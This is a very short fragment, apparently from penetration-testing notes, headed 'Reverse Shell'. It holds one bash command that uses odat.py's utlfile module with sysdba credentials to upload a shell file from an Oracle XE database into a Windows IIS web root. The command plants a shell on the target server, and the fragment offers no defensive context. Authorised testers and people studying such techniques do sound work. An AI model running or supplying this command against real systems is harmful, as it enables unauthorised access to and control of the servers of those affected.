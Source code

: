 # Reverse Shell
```bash
$ ./odat.py utlfile -s <IP> -d XE -U <user> -P <pass> --sysdba --putFile C:\\inetpub\\wwwroot <shell-file> ./<shell-file>
```